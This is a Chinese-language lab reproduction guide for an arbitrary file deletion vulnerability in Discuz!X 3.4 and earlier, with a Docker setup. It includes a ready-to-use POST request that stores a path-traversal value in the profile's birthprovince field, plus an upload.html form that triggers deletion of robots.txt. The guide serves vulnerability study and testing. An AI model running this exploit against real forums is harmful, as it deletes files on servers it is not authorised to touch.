





Discuz!X ≤3.4 任意文件删除漏洞¶
Discuz!X是一个广泛使用的论坛软件系统。在Discuz!X 3.4及以下版本中存在一个任意文件删除漏洞，攻击者可以通过用户资料修改功能删除服务器上的任意文件。
参考链接：
环境搭建¶
执行下列命令部署Discuz!X安装环境：
docker compose up -d
安装时，只需修改数据库地址为db，其他配置保持默认即可：

漏洞复现¶
首先，访问http://your-ip/robots.txt确认目标文件（如robots.txt）存在：

注册用户后，在个人设置页面找到自己的formhash值：

发送如下HTTP请求，注意替换其中的cookie和formhash值：
POST /home.php?mod=spacecp&ac=profile&op=base HTTP/1.1
Host: localhost
Content-Length: 367
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryPFvXyxL45f34L12s
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/61.0.3163.79 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.8,en;q=0.6
Cookie: [你的cookie]
Connection: close
------WebKitFormBoundaryPFvXyxL45f34L12s
Content-Disposition: form-data; name="formhash"
[你的formhash]
------WebKitFormBoundaryPFvXyxL45f34L12s
Content-Disposition: form-data; name="birthprovince"
../../../robots.txt
------WebKitFormBoundaryPFvXyxL45f34L12s
Content-Disposition: form-data; name="profilesubmit"
1
------WebKitFormBoundaryPFvXyxL45f34L12s--
提交成功后，用户资料修改页面上的出生地会显示如下状态：

这表明我们的恶意数据已经成功写入数据库。
接下来，创建一个upload.html文件，代码如下（将[your-ip]替换为你的Discuz域名，[form-hash]替换为你的formhash值）：
<body>
<form action="http://[your-ip]/home.php?mod=spacecp&ac=profile&op=base&profilesubmit=1&formhash=[form-hash]" method="post" enctype="multipart/form-data">
<input type="file" name="birthprovince" />
<input type="submit" value="upload" />
</form>
</body>
用浏览器打开该页面并上传一个普通图片文件。此时，恶意数据应该已被处理，漏洞利用完成。
再次访问http://your-ip/robots.txt，可以验证文件已被成功删除：
